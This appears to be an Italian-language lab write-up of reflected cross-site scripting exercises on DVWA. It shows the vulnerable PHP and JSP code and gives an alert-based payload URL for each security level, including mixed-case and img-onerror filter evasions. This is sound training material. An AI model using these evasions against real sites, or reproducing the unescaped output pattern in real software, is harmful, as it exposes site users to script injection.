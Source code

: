 ## XSS (Reflected)

- https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
- https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
- https://en.wikipedia.org/wiki/Cross-site_scripting
- http://www.scriptalert1.com/

Nei Reflected XSS il codice malevolo viene inviato al browser vittima dal server a seguito di una richiesta opportunamente preparata dall'attaccante.
Il browser esegue il codice in quanto ricevuto da un server "fidato".

Dato il seguente codice vulnerabile:

```
<% String eid = request.getParameter("eid"); %>
...
Employee ID: <%= eid %>
```

Se il parametro `eid` contiene codice malevolo, il browser lo esegue.

### XSS (Reflected) - Low

```
// Feedback for end user
echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>'; 
```

Exploit:

- accedi a `172.17.0.2/vulnerabilities/xss_r/?name=<script>alert('hacked')</script>`

### XSS (Reflected) - Medium

```
// Get input
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
```

Exploit:

- accedi a `172.17.0.2/vulnerabilities/xss_r/?name=<Script>alert('hacked')</script>`

### XSS (Reflected) - High

```
// Get input
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
```

Exploit:

- accedi a `http://172.17.0.2/vulnerabilities/xss_r/?name=<img src="172.17.0.2/not_existing.jpg" onerror=alert('hacked')>`

